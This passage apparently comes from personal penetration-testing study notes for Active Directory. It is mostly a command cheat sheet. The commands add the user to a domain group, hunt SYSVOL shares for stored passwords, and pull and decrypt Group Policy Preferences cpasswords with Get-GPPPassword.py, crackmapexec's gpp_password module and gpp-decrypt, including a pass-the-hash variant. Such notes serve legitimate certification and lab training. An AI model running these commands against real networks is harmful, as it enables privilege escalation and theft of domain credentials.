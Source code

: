 We can litrally add `ourself [stephanie]` to the `Management Department` Group.. using following

```powershell
##Adding ourself to the Group
PS> net group "Management Department" stephanie /add /domain

##Deleting ourself from the group
PS> net group "Management Department" stephanie /del /domain
```

### Domain Shares
```powershell
PS> Find-DomainShares
## takes time worth checking for any backup shares or other shares
```
![image](https://github.com/kullaisec/OSCP/assets/99985908/97c1453b-76f3-4904-94bc-337bdd05ad47)

Need to check the Each Share ..
```powershell
PS> ls \\dc1.corp.com\sysvol\corp.com\
PS> ls \\dc1.corp.com\sysvol\corp.com\Policies\
PS> cat \\dc1.corp.com\sysvol\corp.com\Policies\oldpolicy\old-policy-backup.xml

#May contain passwords !!
```
## GPP or CPassword
```javascript
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash (with an NT hash)
Get-GPPPassword.py -hashes :'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# parse a local file
Get-GPPPassword.py -xmlfile '/path/to/Policy.xml' 'LOCAL'
```
- SMB share - If `SYSVOL` share or any share which domain name as folder name
```javascript
#Download the whole share
https://github.com/ahmetgurel/Pentest-Hints/blob/master/AD%20Hunting%20Passwords%20In%20SYSVOL.md
#Navigate to the downloaded folder
grep -inr "cpassword"
```
- Crackmapexec
```javascript
crackmapexec smb <TARGET[s]> -u <USERNAME> -p <PASSWORD> -d <DOMAIN> -M gpp_password
crackmapexec smb <TARGET[s]> -u <USERNAME> -H LMHash:NTLMHash -d <DOMAIN> -M gpp_password
```
- Decrypting the CPassword
```javascript
gpp-decrypt "cpassword"
```
